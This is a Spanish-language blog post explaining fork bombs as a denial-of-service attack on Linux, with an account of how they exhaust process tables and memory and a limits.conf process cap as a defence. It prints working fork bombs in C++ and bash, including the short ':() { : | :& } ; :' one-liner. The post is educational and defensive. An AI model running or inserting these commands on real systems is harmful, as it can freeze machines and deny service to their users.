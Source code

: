```yaml
---
layout: single
title: Linux - Bomba fork 
excerpt: "**¿Qué es una bomba fork?**
Una bomba fork es un tipo de ataque del tipo denegación de servicio sobre un 
computador implementando una operación fork o alguna otra funcionalidad 
equivalente mediante la cual un proceso es capaz de autorreplicarse.
La bomba fork es considerado un wabbit, ya que no se autorreplica de la misma 
forma que los gusanos o los virus."

date: 2022-05-29
classes: wide
header:
  teaser: /assets/images/bomba/bomba.jpg
  teaser_home_page: true
  icon: /assets/images/logofairy.png
categories:
  - Denegacion de servicio
tags:  
  - c++
  - bash
---
```


![](/assets/images/bomba/fork.jpg)


Una bomba fork funciona creando una gran cantidad de procesos muy rápidamente 
con el objetivo de saturar el espacio disponible en la lista de procesos 
mantenida por el sistema operativo del computador. 
Si la tabla de procesos se llega a saturar, entonces no se pueden iniciar 
nuevos programas hasta que no se cierre alguno. En el caso que esto suceda, es
muy poco probable que se pueda iniciar un programa útil ya que los procesos de
la bomba estarán esperando para poder crear nuevos procesos a la primera 
oportunidad que se les conceda.

Las bombas fork no sólo ocupan espacio dentro de la lista de procesos, también 
consumen tiempo de proceso y memoria de la máquina donde se ejecutan. 
Como resultado de esto, los ordenadores se vuelven lentos e incluso se pueden 
volver inutilizables dada la falta de memoria y la imposibilidad de aprovechar
el procesador.

## Bomba Fork en C++

Para utilizar la funcion fork en C o C++ se debe incluir la libreria <unistd.h>


![](/assets/images/bomba/c++.png)

```c++

#include <unistd.h>

int main(){

    while(true) fork();

}

```

## Bomba Fork en BASH

Para crear una bomba fork en bash solo se debe crear una función vacía, 
que se llame así misma y su salida sea redirigida a la misma función, 
la cual se ejecutara en segundo plano. O sea, cada vez que se llame la función 
se generara un nuevo proceso que correra en segundo plano.



```bash

bomba_fork() { bomba_fork|bomba_fork & }; bomba_fork


```
![](/assets/images/bomba/bash.png)

## Forma mas simplificada

```bash

:() { : | :& } ; :

```
## Como evitar este ataque en Linux

En mi test de la bomba fork para evitar que me cuelgue el sistema, solo permití 
a mi usuario «ema» que pueda ejecutar 15 procesos como máximo. 
Si se observa en la imagen donde ejecuto la bomba fork en bash se interrumpió 
la ejecucion luego de que se crearan 15 procesos.

Para realizar esta configuración solo se debe editar el archivo 
«/etc/security/limits.conf». Donde se debe definir la cantidad de procesos que 
se le permitirá ejecutar a un usuario del sistema.

![](/assets/images/bomba/security.png)
